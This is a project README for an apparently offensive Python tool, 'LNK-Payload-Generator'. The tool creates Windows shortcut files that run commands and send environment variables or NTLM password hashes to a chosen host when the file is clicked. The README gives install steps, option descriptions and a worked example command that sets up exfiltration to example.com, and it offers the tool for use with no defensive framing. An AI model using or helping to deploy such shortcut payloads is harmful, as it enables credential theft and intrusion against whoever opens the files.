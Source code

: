 # LNK-Payload-Generator

LNK-Payload-Generator is a Python script that generates Windows shortcut files (LNK) with specific commands and configurations. These shortcuts can exfiltrate data or execute specific commands when clicked.

## Features

- Generate LNK files for both Windows and non-Windows systems
- Customize the command to execute upon clicking the shortcut
- Exfiltrate specified environment variables or NTLM password hashes
- Supports English, Russian, and Chinese languages

## Requirements

- Python 3.x
- For Windows: `pywin32` module
- For non-Windows: `pylnk` module

## Installation

1. Clone the repository:
    ```bash
    git clone https://github.com/your-username/LNK-Payload-Generator.git
    cd LNK-Payload-Generator
    ```

2. Install the required modules:
    ```bash
    pip install -r requirements.txt
    ```

## Usage

1. Run the script with the desired options:
    ```bash
    python Lnk-Gen.py --lang <language> --host <host> --output <output.lnk> [--execute <command>] [--vars <variables>] [--type <type>]
    ```

2. Example:
    ```bash
    python Lnk-Gen.py --lang en --host example.com --output payload.lnk --execute "notepad.exe" --vars "PATH,COMPUTERNAME,USERNAME" --type environment
    ```

## Options

- `--lang`: Choose language: en, ru, zh
- `--host`: Where should we send our data?
- `--output`: The name of the lnk file
- `--execute`: Command to execute when the shortcut is clicked (default: `C:\Windows\explorer.exe .`)
- `--vars`: Variables to exfiltrate, e.g., "PATH,COMPUTERNAME,USERNAME,NUMBER_OF_PROCESSORS"
- `--type`: Payload type to generate (choices: `environment`, `ntlm`, `all`)

## Documentation

Detailed documentation is available in the `docs` folder.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contributing

Contributions are welcome! Please read the [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines.

